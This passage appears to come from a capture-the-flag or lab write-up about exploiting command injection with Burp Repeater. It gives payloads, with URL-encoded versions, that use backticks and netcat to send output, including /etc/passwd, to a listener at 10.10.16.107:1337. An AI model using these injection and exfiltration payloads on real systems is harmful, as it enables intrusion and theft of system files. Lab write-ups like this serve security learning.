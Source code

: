 - Using the following payload in Burp Repeater to check the data from victim 
```
;`echo etc "hello test" |nc -N 10.10.16.107 1337`
```
- URL Encoding 
```
%3b%60echo+etc+%22hello+test%22+%7cnc+%2dN+10.10.16.107+1337%60
```
![](./IMG/18.png)
- Check nc get data back 
![](./IMG/19.png)
- Try to read /etc/passwd 
```
;`cat /etc/passwd |nc -N 10.10.16.107 1337`
```
- URL Encoding 
```
%3b%60cat+%2fetc%2fpasswd+%7cnc+%2dN+10.10.16.107+1337%60
```
![](./IMG/20.png)
- Check nc listener, the /etc/passwd content will back to nc 